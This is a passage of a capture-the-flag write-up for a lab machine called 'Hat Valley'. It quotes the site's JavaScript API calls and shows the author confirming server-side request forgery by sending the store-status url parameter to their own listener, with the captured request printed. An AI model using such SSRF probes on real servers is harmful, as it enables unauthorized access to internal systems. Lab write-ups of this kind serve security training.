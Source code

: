     ```js
    var baseURL = "/api/";
    var staff_details = function staff_details() {
        return axios__WEBPACK_IMPORTED_MODULE_0___default.a.get(baseURL + 'staff-details').then(function (response) {
            return response.data;
        });
    };
    ```

    ```js
    var baseURL = "/api/";
    var store_status = function store_status(URL) {
        var params = {
            url: {
                toJSON: function toJSON() {
                    return URL;
                }
            }
        };
        return axios__WEBPACK_IMPORTED_MODULE_0___default.a.get(baseURL + 'store-status', {
            params: params
        }).then(function (response) {
            return response.data;
        });
    };
    ```

- [`http://hat-valley.htb/api/store-status`](http://hat-valley.htb/api/store-status)

    from the requests made by the browser I can see: [`http://hat-valley.htb/api/store-status?url=%22http:%2F%2Fstore.hat-valley.htb%22`](http://hat-valley.htb/api/store-status?url=%22http:%2F%2Fstore.hat-valley.htb%22)

    URL decoded and I got: [`http://hat-valley.htb/api/store-status?url="http://store.hat-valley.htb"`](http://hat-valley.htb/api/store-status?url="http://store.hat-valley.htb")

    so I can pass a URL at will? isn't the website corresponding to the store hard-coded? that's great, most likely an SSRF is present

    [`http://hat-valley.htb/api/store-status?url=%22http://10.10.14.58:4444%22`](http://hat-valley.htb/api/store-status?url=%22http://10.10.14.58:4444%22)
    ```
    GET / HTTP/1.1
    Accept: application/json, text/plain, */*
    User-Agent: axios/0.27.2
    Host: 10.10.14.58:4444
    Connection: close
    ```

    SSRF found, now I need to figure out how to exploit it
    
    I can put some json/text into the html page and it shows server side

    I've tried several injections but I can't do much
